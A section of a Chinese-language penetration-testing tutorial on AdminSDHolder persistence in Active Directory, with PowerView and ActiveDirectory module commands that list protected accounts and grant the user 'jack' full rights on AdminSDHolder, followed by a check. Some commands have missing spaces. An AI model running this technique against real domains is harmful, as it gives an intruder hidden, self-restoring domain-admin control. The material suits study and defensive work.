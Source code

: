 # 0x03 AdminSDHolder组

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护AD账户和组的模板，当我们获取到域控权限，就可以通过授予该用户对容器进行滥用，使该用户成为域管。

默认情况下，该组的 ACL 被复制到所有“受保护组”中。这样做是为了避免有意或无意地更改这些关键组。但是，如果攻击者修改了AdminSDHolder组的
ACL，例如授予普通用户完全权限，则该用户将拥有受保护组内所有组的完全权限（在一小时内）。如果有人试图在一小时或更短的时间内从域管理员中删除此用户（例如），该用户将回到组中。

    
    
    在server2000中引入，默认包含如下的组：AdministratorsDomainAdminsAccountOperatorsBackupOperatorsDomainControllersEnterpriseAdminsPrintOperatorsReplicatorRead-only DomainControllersSchemaAdminsServerOperators

其中Administrators、Domain Admins、Enterprise
Admins组对AdminSDHolder上的属性具有写权限，受保护的ad账户和组的具备admincount属性值为1的特征。

![](https://gitee.com/fuli009/images/raw/master/public/20210816192542.png)

## 3.1 使用powerview查询

查询ad保护的域的用户

    
    
    Get-NetUser-AdminCount|select samaccountname

![](https://gitee.com/fuli009/images/raw/master/public/20210816192543.png)

查询域中受ad保护的所有组

    
    
    Get-netgroup -AdminCount| select name

![](https://gitee.com/fuli009/images/raw/master/public/20210816192544.png)

## 3.2 使用ActiveDirectory

查询ad保护的域中所有的用户和组

    
    
    Import-ModuleActiveDirectoryGet-ADObject-LDAPFilter"(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))"|select name

![]()

## 3.3 添加用户

添加jack用户对其有完全控制权限。

    
    
    Add-DomainObjectAcl-TargetIdentityAdminSDHolder-PrincipalIdentity jack -RightsAll

然后验证下，这里的sid为jack用户的。

    
    
    Get-DomainObjectAcl adminsdholder | ?{$_.SecurityIdentifier-match "S-1-5-21-151877218-3666268517-4145415712-1106"} | select objectdn,ActiveDirectoryRights |sort -Unique
